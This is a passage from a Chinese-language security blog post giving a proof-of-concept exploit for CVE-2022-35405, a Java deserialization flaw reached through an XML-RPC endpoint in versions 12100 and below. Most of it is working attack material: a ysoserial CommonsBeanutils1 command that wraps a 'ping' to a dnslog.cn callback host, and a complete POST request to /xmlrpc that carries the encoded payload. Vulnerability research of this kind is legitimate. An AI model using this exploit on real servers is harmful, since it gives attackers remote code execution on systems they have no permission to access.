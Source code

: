 - - -

## [](#cve-2022-35405)CVE-2022-35405

这个洞影响范围 12100 及以下版本，在 12101 被修复

[![Untitled](assets/1710207710-759505b576f11412b3e7847922437b39.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%206.png)

poc

使用 `ysoserial` 的 `CommonsBeanutils1` 来生成 Payload：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>java -jar ysoserial.jar CommonsBeanutils1 "ping uqgr9k.dnslog.cn" \| base64 \| tr -d "\n"<br>``` |

替换到下面的 `[base64-payload]` 部分

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```bash<br>POST /xmlrpc HTTP/1.1<br>Host: your-ip<br>Content-Type: application/xml<br><br><?xml version="1.0"?><br><methodCall><br>  <methodName>ProjectDiscovery</methodName><br>  <params><br>    <param><br>      <value><br>        <struct><br>          <member><br>            <name>test</name><br>            <value><br>              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable><br>            </value><br>          </member><br>        </struct><br>      </value><br>    </param><br>  </params><br></methodCall><br>``` |
